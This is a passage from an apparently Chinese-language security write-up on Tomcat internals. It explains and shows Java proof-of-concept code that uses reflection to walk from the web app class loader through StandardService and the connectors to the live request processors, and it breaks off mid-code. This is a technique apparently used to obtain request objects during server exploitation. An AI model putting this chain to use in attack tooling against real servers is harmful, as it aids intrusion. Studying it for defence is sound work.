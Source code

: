 然后问题就变成了寻找 _Connector_

在Tomcat类中,setConnector方法通过`org.apache.catalina.core.StandardService#addConnector`存放在`connectors`中

最后一步就是如何获取`StandardService` 了

这里根据网上的解释应该是通过设置对应的加载器来达到获取`StandardService` 的目的

上面粗略的流程构对应的Poc

    
    
    org.apache.catalina.loader.WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();  
            org.apache.catalina.core.StandardContext standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();  
      
            try {  
                Field context = Class.forName("org.apache.catalina.core.StandardContext").getDeclaredField("context");  
                context.setAccessible(true);  
                ApplicationContext ApplicationContext = (ApplicationContext)context.get(standardContext);  
                  
                Field service = Class.forName("org.apache.catalina.core.ApplicationContext").getDeclaredField("service");  
                service.setAccessible(true);  
                org.apache.catalina.core.StandardService standardService = (StandardService) service.get(ApplicationContext);  
                  
                Field connectors = standardService.getClass().getDeclaredField("connectors");  
                connectors.setAccessible(true);  
                Connector[] connector = (Connector[]) connectors.get(standardService);  
                  
                Field protocolHandler = Class.forName("org.apache.catalina.connector.Connector").getDeclaredField("protocolHandler");  
                protocolHandler.setAccessible(true);  
                  
                Class<?>[] declaredClasses = Class.forName("org.apache.coyote.AbstractProtocol").getDeclaredClasses();  
                  
                for (Class<?> declaredClass : declaredClasses) {  
      
                    if (declaredClass.getName().length()==52){  
                          
                        java.lang.reflect.Method getHandler = org.apache.coyote.AbstractProtocol.class.getDeclaredMethod("getHandler",null);  
                        getHandler.setAccessible(true);  
                          
                        Field global = declaredClass.getDeclaredField("global");  
                        global.setAccessible(true);  
                        org.apache.coyote.RequestGroupInfo requestGroupInfo = (RequestGroupInfo) global.get(getHandler.invoke(connector[0].getProtocolHandler(), null));  
      
                        Field processors = Class.forName("org.apache.coyote.RequestGroupInfo").getDeclaredField("processors");  
                        processors.setAccessible(true);  
                        java.util.List<org.apache.coyote.RequestInfo>  requestInfo = (List<RequestInfo>) processors.get(requestGroupInfo);  
                        Field req1 = Class.forName("org.apache.coyote.RequestInfo").getDeclaredField("req");  
                        req1.setAccessible(true);  
      
